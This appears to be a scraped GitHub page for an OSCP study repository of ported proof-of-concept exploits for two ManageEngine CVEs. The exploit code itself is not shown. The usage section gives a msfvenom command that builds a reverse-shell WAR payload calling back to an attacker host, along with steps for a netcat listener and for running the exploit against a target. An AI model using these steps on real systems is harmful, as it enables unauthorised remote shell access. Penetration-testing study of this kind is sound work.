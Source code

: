 # OSCP

OSCP custom scripts

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/AndyCyberSec](https://github.com/AndyCyberSec) |
| Url      | [https://github.com/AndyCyberSec/OSCP](https://github.com/AndyCyberSec/OSCP)                                               |
| Stars    | 4                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* 2012-4869* 2014-5301* 35845* cve* cve-2012-4869* cve-2014-5301* manageengine* oscp

</details>

## Readme

# OSCP
This is a repository which contains custom/ported POC exploits. They have been made for study and learning purposes.
Currently under development.

## 35845.py

CVE: 2014-5301

OSVDB: 116733

URL: [http://seclists.org/fulldisclosure/2015/Jan/5](http://seclists.org/fulldisclosure/2015/Jan/5)

Original metasploit module: https://www.exploit-db.com/exploits/35845

### Usage
```
35845.py file.war host port
```

1. First create reverse shell payload
```
msfvenom -p java/shell_reverse_tcp LHOST=<ip address> LPORT=4444 -f war > shell.war
```

2. Start netcat listener 

3. Run the script
```
35845.py shell.war 192.168.1.1 8080
```
**Note:** The exploit may require multiple run to get it working. Don't give up!



## 18650.py

CVE: 2012-4869

URL: [http://seclists.org/fulldisclosure/2012/Mar/234](http://seclists.org/fulldisclosure/2012/Mar/234)

Original code: https://www.exploit-db.com/exploits/18650

### Usage
Edit the file and change rhost, lhost, lport

1. Start netcat listener on the port you configured

3. Run the script
```
python 18650.py
```





## Get the content

```
git clone https://github.com/AndyCyberSec/OSCP
cd OSCP
```

{% embed url="https://github.com/AndyCyberSec/OSCP" %}

<figure><img src="https://avatars.githubusercontent.com/u/20374411?v=4" alt=""><figcaption><p>AndyCyberSec</p></figcaption></figure>
